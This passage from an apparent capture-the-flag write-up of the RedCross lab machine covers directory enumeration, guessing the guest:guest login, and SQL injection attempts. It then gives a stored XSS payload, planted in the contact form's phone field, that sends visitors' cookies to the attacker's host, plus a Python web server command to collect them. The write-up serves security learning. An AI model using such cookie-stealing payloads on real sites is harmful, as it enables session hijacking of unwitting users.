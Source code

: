 ```
2019/04/16 08:34:19 Starting gobuster
=====================================================
/images (Status: 301)
/pages (Status: 301)
/documentation (Status: 301)
/javascript (Status: 301)
...
```

Here we have to add the `-k`argument to ignore certificate errors because the intra site is using https with a self-signed certificate.

While that runs we start guessing some default credentials we eventually see that `guest:guest` works.

Nothing useful when logged in as guest, we ran wfuzz against the query strings and sqlmap against the login, contact and messages forms, there was a help file that told you how to request access through the contact form, but following it does not result in any additional information we didn't already know.

We spent a lot of time messing around with different wfuzz and sqlmap as well as manual sql injection, we were able to use sql injection to get data from the site, but we really wanted to get full admin access so we kept pushing.

Playing around with the contact form, there appears to be XSS protection added to the details input, but not the other fields.

When adding some XSS test characters (`<>$="".`)into the details imput we get the following error message:
![238944273.png]({{site.baseurl}}/Images/RedCross/238944273.png)

However when we add the same to the phone number field, we get a contact form submitted message. 

We can set up a very basic XSS script to see if it is something that will be triggered by a user that might be checking the contact form requests:
```
<script>document.write('<img src="http://10.10.14.12/ThoseGuys.gif?cookie='+document.cookie+'"/>')</script>
```

The code above will try to embed an image on the page, but we are telling it to get the image from our attackers machine, and passing a JavaScript variable as a query string parameter. In this example we are seeing if we can steal the cookie of whoever is reading the contact request. The reason we use the `<img` tag is because we want the javascript to trigger as soon as the page loads, so that it triggers without needing to further trick a target into clicking a link or interacting with a particular element. 
What happens is, when the user loads up the page, it is attempting to load a image that doesn't exist (or it could if we actually hosted one) with the added query string containing the value of the users cookie javascript variable, our web server hosting the image gets the full request URL, including query strings, so we are able to potentially steal the targets authentication cookie / session.

To see the contents of the variable we have to host a server using our friend SimpleHTTPServer:
```
root@kali: python -m SimpleHTTPServer 80
```
Once we have the web server listening, place the XSS script into the contact phone field and submit the form:

![217972750.png]({{site.baseurl}}/Images/RedCross/217972750.png)
